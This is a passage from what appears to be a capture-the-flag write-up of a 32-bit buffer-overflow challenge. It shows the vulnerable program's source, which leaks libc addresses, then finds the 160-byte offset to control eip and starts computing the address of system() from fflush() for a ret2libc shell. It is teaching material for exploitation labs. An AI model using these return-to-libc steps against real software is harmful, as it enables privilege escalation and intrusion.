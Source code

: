 ```c
  puts(buf);
  puts("Thanks! Exiting now...");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  puts("Here are some useful addresses:\n");

  printf("puts: %p\n", puts);
  printf("fflush %p\n", fflush);
  printf("read: %p\n", read);
  printf("write: %p\n", write);
  printf("useful_string: %p\n", useful_string);

  printf("\n");
  vuln();

  return 0;
}
```

Using `pattern_create.rb` and `pattern_offset.rb`, we find an offset of 160. We now have control of `eip` and it appears the challenge requires you to call `execve` or `system` with the provided `/bin/sh` string. To do this, we need to first figure out which libc we're working with. We'll try calling one of the provided addresses. First we try `puts()` but no luck. Next we try `fflush()` and voila!

```c
0xf7d74010 in ?? () from /lib/i386-linux-gnu/libc.so.6
```

Great - but this is our local libc. This reminds me! There is a much easier way to find which libc is being used.

```bash
$ ldd vuln
    linux-gate.so.1 =>  (0xf76e8000)
    libc.so.6 => /lib32/libc.so.6 (0xf7522000)
    /lib/ld-linux.so.2 (0xf76e9000)
```

Copying over the libc allows us to calculate the offset of `system()` from `fflush()` via libc base pointer. Using `readelf`:

```bash
$ readelf -s /lib32/libc.so.6 | grep fflush()
    88: 000000000005d330   311 FUNC    WEAK   DEFAULT   13 fflush@@GLIBC_2.2.5
    226: 0000000000077fb0    45 FUNC    WEAK   DEFAULT   13 fflush_unlocked@@GLIBC_2.2.5
    466: 000000000006d7a0   311 FUNC    GLOBAL DEFAULT   13 _IO_fflush@@GLIBC_2.2.5
```

